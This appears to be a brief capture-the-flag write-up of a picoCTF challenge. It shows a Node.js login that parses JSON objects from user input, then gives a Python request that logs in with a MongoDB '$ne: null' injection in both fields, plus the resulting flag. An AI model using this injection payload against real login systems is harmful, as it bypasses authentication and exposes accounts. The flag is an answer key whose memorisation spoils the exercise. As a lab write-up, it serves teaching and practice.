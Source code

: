 ```yaml
---
created: 2024-11-16T19:49
updated: 2024-11-16T19:51
---
```


Simple mongodb injection.

```js
const user = await User.findOne({
    email:
    email.startsWith("{") && email.endsWith("}")
        ? JSON.parse(email)
        : email,
    password:
    password.startsWith("{") && password.endsWith("}")
        ? JSON.parse(password)
        : password,
});
```

Since we can provide it with an object, we can just use [$ne - MongoDB Manual v8.0](https://www.mongodb.com/docs/manual/reference/operator/query/ne/#mongodb-query-op.-ne).

```js
{ field: { $ne: value } }
```

```python
import base64
import requests

print(base64.b64decode(requests.post("http://atlas.picoctf.net:63914/login", json={"email": '{"$ne": null}', "password": '{"$ne": null}'}).json()['token']))
```

```flag
picoCTF{jBhD2y7XoNzPv_1YxS9Ew5qL0uI6pasql_injection_784e40e8}
```

